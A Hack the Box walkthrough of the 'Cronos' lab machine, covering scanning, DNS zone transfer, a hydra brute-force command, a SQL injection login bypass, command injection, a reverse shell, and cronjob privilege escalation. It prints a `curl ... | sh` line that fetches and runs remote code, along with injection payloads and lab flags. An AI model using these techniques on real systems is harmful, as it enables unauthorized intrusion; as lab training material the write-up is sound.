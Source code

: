 ```yaml
---
title: Cronos - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cronos.png
---
```

![Image](/assets/Cronos.png)

Cronos is an easy/intermediate box that will test an attacker's knowledge of zone transfers, remote code execution, simple SQL injection, and simple privilege escalation based on abused access. Let's get into it!
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 09:59 EDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.89 seconds

```
### Enumeration

Landing page![Image](/assets/Screenshot 2024-09-10 at 10.31.58 AM.png)

From the jump, the landing page doesn't leave us with much other than default configuration information. Feroxbuster comes up pretty empty as well, and when doing research online, all I can find is a TSIG Buffer Overflow vulnerability, but that seems out of play and a bit out of scope for a box like this. Searchsploit shows a few repos geared toward DOS and buffer overflow attacks as well, which won't help us here. I throw a general `--script vuln` nmap scan to see if anything comes back, and nothing except DOS attacks come back. 

Looking around on the web about Apache2 Ubuntu servers, we can find information about why we encountered the landing page. It looks like we need to find the DNS name that the IP resolves to, and we can do that with a tool called `nslookup`.
Using that command we can start our service, and then specify `server 10.10.10.13` to configure it, and then simply put in the IP `10.10.10.13` for DNS information.

![Image](/assets/Screenshot 2024-09-10 at 11.02.53 AM.png)

After that, we can add it to our `/etc/hosts` file, and then visit the server. 

![Image](/assets/Screenshot 2024-09-10 at 11.09.36 AM.png)
![Image](/assets/Screenshot 2024-09-10 at 11.09.56 AM.png)

The new landing page offers some options, and I started a feroxbuster in the background while I perused the sight. It seems to be hub for services provided by Laravel, which is a PHP based framework for building webapps. Nothing crazy going on on the backside.

Since we've got the domain name, let's do a zone transfer to find all of the hosts under this domain name. We can use the `host -l` command to do so, specifying our domain server and address afterwards to find the aliases.

`host -l cronos.htb 10.10.10.13`

![Image](/assets/Screenshot 2024-09-10 at 11.15.58 AM.png)

We can add these to our `/etc/hosts` file.

When we visit the administrator site, we're met with portal. I tried a few simple credentials, but they didn't work. I'll opt for `john` and pass the list (`/usr/share/john/password.lst`) that I use find to `hydra`.  We'll need to intercept a request with Burp to know which parameters to configure.

![Image](/assets/Screenshot 2024-09-10 at 11.25.50 AM.png)

Now that we've got it, let's configure `hydra`. 

```
hydra -l 'admin' -P /usr/share/john/password.lst admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^&Login=Login:Your Login Name or Password is invalid"
```

In this instance, `http-post-form` sends the post request, and the `"blah"` Specifies the username and pass parameters to be tried and the message to be shown. 

![Image](/assets/Screenshot 2024-09-10 at 11.33.04 AM.png)

We find nothing of use. Let's try some sort of injection with the login field. There's a SQL injection cheatsheet I've bookmarked, and after trying some of the default instances, `admin' #` gets us in the door. This effectively ends the argument after admin is defined, meaning that we can login without a password.

![Image](/assets/Screenshot 2024-09-10 at 11.36.13 AM.png)

### Initial Access

We've got access to a Net Tool that allows command injection. 

![Image](/assets/Screenshot 2024-09-10 at 11.37.10 AM.png)

To probe, we can use `8.8.8.8& pwd& ps`

![Image](/assets/Screenshot 2024-09-10 at 11.44.46 AM.png)

Now, let's try and get a shell. We can use Burp to modify our request. Don't forget to try different versions (bash, python, php) should one not work. Remember to URL encode!

![Image](/assets/Screenshot 2024-09-10 at 11.54.41 AM.png)

![Image](/assets/Screenshot 2024-09-10 at 11.54.19 AM.png)

We've got a shell as `www-data`. Some maintenance as always to stabilize our shell:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

`stty raw -echo; fg` 

`export TERM="xterm"`

If we go to the `/home/noulis/` directory, we can find our user flag waiting for us. 

`USER:6394548063775e0b161d3b2771125340`

### Privilege Escalation

Let's serve `LinPeas.sh` from our machine to the target. Make sure the server is spinning from the directory you want to serve! Syntax below:

`python -m SimpleHTTPServer 80` Our Machine

`curl 10.10.14.3/linpeas.sh | sh` Compromised Machine

Once ran, we can take a look at all of the potential red-flags we've got. Given the severity of the notification via color-coding, and the name of the machine, I think we'll use this vector here exploiting the cronjob. A cronjob is a service account that sometimes has excess access over it's domain. In this case, since we are `www-data`, anything in the `/var/www/` directory will be available to us as if we were `root`.

![Image](/assets/Screenshot 2024-09-10 at 12.17.42 PM.png)

Here, the `laravel/artisan` job will be what we leverage. Because the job is ran with PHP, we'll need a PHP shell. I got one at revshell.com, and I'll make a file and serve it over the python server.

![Image](/assets/Screenshot 2024-09-10 at 12.26.01 PM.png)
![Image](/assets/Screenshot 2024-09-10 at 12.30.32 PM.png)

Once I've created the file, served it, and replace artisan, I'll get my listener going.

![Image](/assets/Screenshot 2024-09-10 at 12.32.11 PM.png)

There she is! I'll `cd` to the root directory and grab my flag.

`ROOT:e2d2bbe3b974d0c044bfcdea242b709b`

#linux #medium #manual 
